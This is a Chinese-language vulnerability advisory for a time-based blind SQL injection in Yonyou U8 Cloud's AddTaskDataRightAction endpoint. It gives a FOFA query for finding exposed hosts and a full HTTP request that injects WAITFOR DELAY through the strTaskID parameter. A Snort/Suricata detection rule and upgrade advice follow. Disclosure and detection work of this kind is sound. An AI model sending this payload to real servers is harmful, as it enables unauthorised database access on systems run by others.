

# 用友U8 Cloud AddTaskDataRightAction 存在SQL注入漏洞

用友U8 Cloud AddTaskDataRightAction 存在SQL注入漏洞

# 影响版本

用友U8 Cloud

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   app="用友-U8-Cloud"

**POC/EXP：**

**step1**  延时注入

```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.task.AddTaskDataRightAction&method=execute&strTaskID=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: JSESSIONID=FA81E65EB60F13E474D3930CCC247A1E.server


```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"用友U8 Cloud - AddTaskDataRightAction strTaskID SQL注入漏洞 (WAITFOR DELAY时间盲注)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/service/~iufo/com.ufida.web.action.ActionServlet"; fast_pattern;
        content:"action=nc.ui.iufo.task.AddTaskDataRightAction"; nocase; distance:0;
        content:"method=execute"; nocase; distance:0;
        content:"strTaskID="; nocase; distance:0;
        content:"WAITFOR"; nocase; distance:0; within:50;
        content:"DELAY"; nocase; distance:0; within:20;
    metadata:
        service http,
        affected_product "用友U8 Cloud",
        vulnerability_type "SQL Injection (Time-based blind)",
        severity "high";
    classtype:web-application-attack;
    sid:1000834;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。
